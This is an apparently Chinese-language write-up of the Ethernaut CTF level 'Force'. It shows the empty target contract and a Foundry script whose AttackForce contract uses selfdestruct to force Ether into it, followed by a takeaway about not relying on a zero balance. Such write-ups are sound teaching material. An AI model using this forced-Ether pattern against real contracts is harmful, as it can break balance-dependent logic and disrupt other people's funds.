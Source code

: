 # Ethernaut CTF Writeup

## Level 7 Force

> 題目: https://ethernaut.openzeppelin.com/level/0xDA1f7C628abd817a91c0124245504365E8D93Ee3

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

過關條件: 

- 使合約的餘額大於 0

解法：

- 目標 `Force` 合約沒有 `fallback` 函數，因此無法透過 `fallback` 方式向目標發送 Ether
- 可運用 `selfdestruct` 自毀函數，可將合約身上的所有 Ether 直接轉往另一個合約

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {Force} from "../src/level7/Force.sol";

contract AttackForce {
    constructor(address _targetAddress) payable {
        selfdestruct(payable(_targetAddress));
    }
}

contract Attack is Script {
    
    function run() public {
        vm.startBroadcast();

        AttackForce attacker = new AttackForce{value: 0.0001 ether}(0x66Db21Be61d4716e4e8EbdCe5deA407c0B3e54a2);
        // cast balance 0x66Db21Be61d4716e4e8EbdCe5deA407c0B3e54a2 --rpc-url $RPC_URL
        
        vm.stopBroadcast();
    }
}
```

Takeaways:

- 在 Solidity 中，如果一個合約要能夠接收 ether，它的 fallback 方法必須設為 payable。
- 然而，並沒有什麽辦法可以阻止攻擊者透過自毀的方式，向合約發送 ether，所以，不要將任何合約邏輯建立在 address(this).balance == 0 之上。